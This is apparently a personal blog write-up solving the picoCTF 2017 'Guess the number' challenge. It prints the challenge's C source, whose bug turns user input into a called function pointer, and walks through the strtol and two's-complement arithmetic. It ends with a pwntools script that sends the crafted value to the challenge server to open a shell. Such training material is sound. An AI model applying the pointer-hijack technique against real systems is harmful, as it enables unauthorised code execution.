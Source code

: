 Title: PicoCTF 2017 Lvl2 Guess the number
Date: 2018-7-28 10:02
Modified: 2018-7-28 10:02
Category: ctf
Tags: ctf, pwnable, binary exploitation
Slug: picoCTF_lvl2GuessTheNumber
Authors: F3real
Summary: How to solve picoCTF Lvl2 Guess the number

Lets look at another of challenges from picoCTF:

>    Just a simple number-guessing game. How hard could it be? [Binary](https://webshell2017.picoctf.com/static/69834a84e2bf2d2953093f5d24d12fa0/guess_num) [Source](https://webshell2017.picoctf.com/static/69834a84e2bf2d2953093f5d24d12fa0/guess_num.c). Connect on shell2017.picoctf.com:44930.

We are given following source code:

~~~c
/* How well do you know your numbers? */

#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

void win(void) {
    printf("Congratulations! Have a shell:\n");
    system("/bin/sh -i");
}

int main(int argc, char **argv) {
    uintptr_t val;
    char buf[32] = "";

    /* Turn off buffering so we can see output right away */
    setbuf(stdout, NULL);

    printf("Welcome to the number guessing game!\n");
    printf("I'm thinking of a number. Can you guess it?\n");
    printf("Guess right and you get a shell!\n");

    printf("Enter your number: ");
    scanf("%32s", buf);
    val = strtol(buf, NULL, 10);

    printf("You entered %d. Let's see if it was right...\n", val);

    val >>= 4;
    ((void (*)(void))val)();
}
~~~

We see that user input is being stored to `uintptr_t val` after which it is called and that we have `win` function giving shell. On first look it looks like we have just to send address of `win` and we get a flag. The problem is that they are using `strtol` to read user input and fact that they shift bits, but first lets find address of `win` function:

    objdump -d guess_num -M intel

![objdump disasembly of win function]({static}/images/2018_8_28_Guess.png){: .img-fluid .centerimage}

`win` function has address of `0x0804852b` but we also need to shift address value 4 bits to left since in code they are doing opposite. Doing so gives us 2152223408, but now we have problem since according to documentation of `strtol`, if the value read is out of the range of representable values by a `long int`, the function returns **LONG_MAX**(2147483647) or **LONG_MIN** (-2147483647). This means we can’t just simply send this value since it’s to big.

To solve this, we have to use negative numbers:
~~~text
    >>>x = 0x0804852b            #address of win function
    >>>bin(x)
    '0b1000000001001000010100101011'   
    >>>x = x << 4                #shift by 4 since they also shift
    >>>x
    2152223408   
    >>>bin(x)
    '0b10000000010010000101001010110000'   
    >>>x = x - (1 << 32)         #get 2nd compliment of number
    >>>x
    -2142743888                  #SOLUTION :D other steps are just to            
                                              explain what happens later

    >>>bin(x)
    '-0b1111111101101111010110101010000'

                                 #Their program will do these steps
    >>>x = x + 4294967295 + 1    
                                 #Since we have negative value which is 
                                 #assigned to unsigned variable it will   
                                 #be converted to unsigned by adding 
                                 #ULONG_MAX + 1
    >>>x
    2152223408
    >>>x = x >> 4                #program shifts our input by 4 bits
    >>>x
    134513963
    >>>bin(x)
    '0b1000000001001000010100101011'  
    >>hex(x)
    0x804852b                    #address of win function
~~~
To automate this we can write short script using **pwntools **and python:

~~~python
context.arch = 'i386'
context.terminal = 'tmux'

r = remote('shell2017.picoctf.com', 44930)
print r.recvuntil('Enter your number:')
payload = 0x0804852b
payload = payload << 4
payload = payload - (1 << (len(bin(payload))-2))

r.send(str(payload)+'\n')
r.interactive()
~~~

Running our script gives us the flag.

![objdump disasembly of win function]({static}/images/2018_8_28_Guess2.png){: .img-fluid .centerimage}
